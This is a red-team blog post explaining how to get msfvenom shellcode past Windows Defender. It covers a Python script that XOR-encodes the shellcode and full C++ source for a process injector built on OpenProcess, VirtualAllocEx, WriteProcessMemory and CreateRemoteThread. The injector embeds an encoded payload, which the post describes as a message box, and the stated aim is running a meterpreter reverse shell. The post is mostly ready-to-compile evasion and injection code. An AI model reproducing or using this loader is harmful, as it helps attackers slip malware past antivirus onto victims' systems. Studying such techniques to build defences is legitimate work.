 ```yaml
---
layout: post
title: "How to Bypass Windows Defender"
featured-img: Bypass_Windows_Defender\background
categories: [cpp, shellcode, redteam, Windows Defender]
---
```


Hey yo I am back with a new blog post. In this post I am going to talk how to bypass the windows defender to run your meterpreter reverse shell.


# SUMMARY

I am going to use the various blog post technique [HERE](https://xret2pwn.github.io/process-inection/) but i will one/two thing(s) which is i will xor my shell code and i will xor again while writing the shellcode into the memory.



# SHELLCODE

I'm created a shellcode through msfvenom that's popup a message box. After creating the shellcode i will xor it.  
The following script is a python to encode my shellcode.

```py
raw_shellcode = "!Replace me with your shellcode"
enc_shellcode = []
print ("[+] Shellcode is encoding")
for opcode in raw_shellcode:
        enc_opcode = (ord(opcode) ^ 0x41)
        enc_shellcode.append(enc_opcode)


print ("========================Shellcode========================\n\n")
print ("".join(["\\x{0}".format(hex(abs(i)).replace("0x", "")) for i in enc_shellcode]))
print ("\n\n========================Shellcode========================")

```

![screenshot_1](/assets/img/posts/Bypass_Windows_Defender/xor_python_script.png)

So now i will generate my encoded shellcode  

![screenshot_2](/assets/img/posts/Bypass_Windows_Defender/encoded_shellcode.png)


# WINAPIs

Our shellcode is ready now so let's create our process injection binary.  
But firstly i will describe some winapis we will need it.  


## OpenProcess

```cpp
HANDLE OpenProcess(
  DWORD dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```
I am going to use **OpenProcess** to open a process by giving it the PID of that process. because the main idea of process injection is a create a new allocation space for the shellcode in a local process so before creating a new allocation into the memory you need to open this process first make sense right?  
You need to close the opened handle through **CloseHandle()**

## VirtualAllocEx

```cpp
LPVOID VirtualAllocEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
I am going to use **VirtualAllocEx** to allocate a new memory space for my shellcode in anther process.  

Why i used **VirtualAllocEx** not **VirtualAlloc**?  
Because I need to allocate memory space in another process address space, catch it!  

Basically you can use **VirtualAlloc** for your current process but **VirtualAllocEx** for another local process.  


## WriteProcessMemory

```cpp
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

I am going to use **WriteProcessMemory** to write the shellcode in new allocation which is I created in another process through **VirtualAllocEx**  


## VirtualProtectEx

```cpp
BOOL VirtualProtectEx(
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

I am going to use **VirtualProtectEx** to change the protection permission 

## CreateRemoteThread 

```cpp
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

I am going to use **CreateRemoteThread** to create a remote thread object that is connecting it to process and making it runnable.  

What is the difference between **CreateThread** and **CreateRemoteThread**?  

CreateThread is only allows you to create a thread for the current process.  

CreateRemoteThread is allows you to create a thread for anther local process.


# PWN

After discussing some WINAPIs we will need it to create our process injection binary that's bypass the windows defender let's start with creating our CPP.  

There is just one step I would like to discuss it before writing the code which is i will decode the shellcode opcode by opcode.   

```cpp
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] = "\x98\xaa\xda\x98\x35\x65\xb5\x70\x93\xf3\x36\x70\x88\x25\xca\x30\x71\xca\x37\x4d\xca\x37\x5d\xca\x7\x49\xca\x3f\x61\xca\x77\x79\xe\x59\x34\xb2\x18\x40\x90\xbe\xa0\x21\xca\x2d\x65\x65\xca\x4\x7d\xca\x15\x69\x39\x40\xab\xca\xb\x59\xca\x1b\x61\x40\xaa\xa2\x75\x8\xca\x75\xca\x40\xaf\x70\xbe\x70\x81\xbd\xed\xc5\x81\x35\x46\x80\x8e\x4c\x40\x86\xaa\xb5\x7a\x3d\x65\x69\x34\xa0\xca\x1b\x65\x40\xaa\x27\xca\x4d\xa\xca\x1b\x5d\x40\xaa\xca\x45\xca\x40\xa9\xc8\x5\x65\x5d\x20\x82\xf3\x49\x68\x95\xc8\xa4\xc8\x83\x29\xcf\xf\x4f\xad\x13\xa9\xde\xbe\xbe\xbe\xc8\x4\x45\xfa\x3f\x99\xa3\x32\xc6\x5d\x65\x13\xa9\xcf\xbe\xbe\xbe\xc8\x4\x49\x29\x2d\x2d\x61\x0\x29\x72\x73\x6f\x25\x29\x34\x32\x24\x33\x71\x9a\xc9\x1d\x65\x4b\xc8\xa7\x17\xbe\x14\x45\xc8\x83\x11\xfa\xe9\xe3\xc\xfd\xc6\x5d\x65\x13\xa9\x1e\xbe\xbe\xbe\x29\x2e\x39\x19\x61\x29\x20\x26\x24\x3\x29\xc\x24\x32\x32\x70\x9a\xc9\x1d\x65\x4b\xc8\xa2\x29\x31\x36\x2f\x19\x29\x13\x24\x35\x73\x70\x88\xc9\xd\x65\x46\xc8\xa0\x70\x93\x13\x12\x10\x13\xbe\x91\x70\x81\x11\xbe\x14\x49";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 16772;
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);

    int i;
    int n = 0;
    for (i = 0; i <= sizeof(shellcode); i++) {
        char dec_opcode = shellcode[i] ^ 0x41;
        if (WriteProcessMemory(processHandle, (char*)remoteBuffer + n, &dec_opcode, 1, NULL)) {
            n++;

        }
    }
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```

![screenshot_3](/assets/img/posts/Bypass_Windows_Defender/Final_code.png)


In the for loop I decoded the shellcode with writing the opcode into the memory immediately.  
So let's compile it and see what will happen?  


![screenshot_4](/assets/img/posts/Bypass_Windows_Defender/Windows_Defender_Bypassed.png)

Yup we have been bypassed the windows defender.🔥🔥🔥

_____________________________________________  

  
   


|   Authors    | Twitter | LinkedIn |
| ----------- | ----------- |----------- |
| Hazem Hisham (Ret2pwn) | [@Twitter](https://twitter.com/RET2_pwn) |[@LinkedIn](https://www.linkedin.com/in/hazem-hesham/) |